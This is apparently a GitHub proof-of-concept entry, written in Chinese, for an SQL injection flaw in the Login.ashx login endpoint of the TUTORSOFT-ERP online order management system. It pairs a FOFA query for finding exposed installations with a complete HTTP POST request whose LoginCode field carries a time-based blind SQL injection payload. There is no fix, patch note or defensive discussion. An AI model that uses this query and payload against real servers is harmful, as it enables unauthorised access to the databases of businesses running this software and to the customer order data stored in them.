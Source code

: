 # 杜特网上订单管理系统Login.ashx存在SQL注入漏洞

杜特网上订单管理系统Login.ashx存在SQL注入漏洞

## fofa

```javascript
app="TUTORSOFT-ERP"
```

## poc

```javascript
POST /ajax/Login.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

LoginCode=1';WAITFOR+DELAY+'0:0:5'--&Password=1&ckRemember=0
```

